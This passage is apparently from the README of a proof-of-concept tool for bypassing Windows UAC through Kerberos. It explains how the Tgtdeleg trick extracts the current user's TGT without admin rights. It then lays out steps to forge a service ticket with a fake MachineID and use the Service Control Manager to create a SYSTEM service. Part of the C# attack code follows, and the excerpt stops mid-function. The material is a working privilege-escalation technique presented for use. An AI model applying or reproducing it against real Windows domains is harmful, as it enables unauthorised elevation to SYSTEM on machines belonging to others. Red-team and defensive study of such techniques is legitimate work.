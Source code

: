 Tgtdeleg abuses Kerberos GSS-API to obtain the current user's available TGT without requiring elevated privileges on the host. This method uses the `AcquireCredentialsHandle` function to obtain the Kerberos security credential handle of the current user. It then calls the `InitializeSecurityContext` function with the `ISC_REQ_DELEGATE` flag and the target SPN set as `HOST/DC.domain.com`, preparing a fake delegate context to be sent to the domain controller.

This results in the KRB_AP-REQ packet in the GSS-API output containing the KRB_CRED in the Authenticator Checksum. Subsequently, it extracts the session key of the service ticket from the local Kerberos cache and uses it to decrypt the KRB_CRED in the Authenticator, obtaining an available TGT.

The Rubeus toolkit also incorporates this technique. For more specific details, please refer to "[*Rubeus – Now With More Kekeo*](https://blog.harmj0y.net/redteaming/rubeus-now-with-more-kekeo/#tgtdeleg)".

With this TGT obtained through the Tgtdeleg technique, we can proceed with generating our own service ticket using the following feasible operational flow:

1. Use the Tgtdeleg technique to obtain the user's TGT.
2. Use the TGT to request the KDC to generate a new service ticket for the local computer. Add a `KERB-AD-RESTRICTION-ENTRY`, but fill in a fake MachineID.
3. Submit the service ticket to the cache.
4. Access the SCM (Service Control Manager) to create a system service and bypass UAC.

## Implemented By C#

To implement the aforementioned flow, I have created my own Proof of Concept (POC) based on Rubeus: https://github.com/wh0amitz/KRBUACBypass

### Main Class

Here, I have implemented two functional modules. The first one is "asktgs", which is used to request a service ticket with fake MachineID. After obtaining the ticket, the second module, "krbscm", is used to access the SCM (Service Control Manager) and create a system service. The flow is as follows:

```c#
private static void Run(string[] args, Options options)
{
	string method = args[0];
	string command = options.Command;
	Verbose = options.Verbose;

    // Get domain controller name
	string domainController = Networking.GetDCName();
    // Get the dns host name of the current host and construct the SPN of the HOST service
	string service = $"HOST/{Dns.GetHostName()}";
    // Default kerberos etype
	Interop.KERB_ETYPE requestEType = Interop.KERB_ETYPE.subkey_keymaterial;
	string outfile = "";
	bool ptt = true;

	if(method == "asktgs")
	{
        // Execute the tgtdeleg trick
		byte[] blah = LSA.RequestFakeDelegTicket();
		KRB_CRED kirbi = new KRB_CRED(blah);
		Ask.TGS(kirbi, service, requestEType, outfile, ptt, domainController);
	}

	if (method == "krbscm")
	{
		// extract out the tickets (w/ full data) with the specified targeting options
		List<LSA.SESSION_CRED> sessionCreds = LSA.EnumerateTickets(false, new LUID(), "HOST", null, null, true);
                
		if(sessionCreds[0].Tickets.Count > 0)
```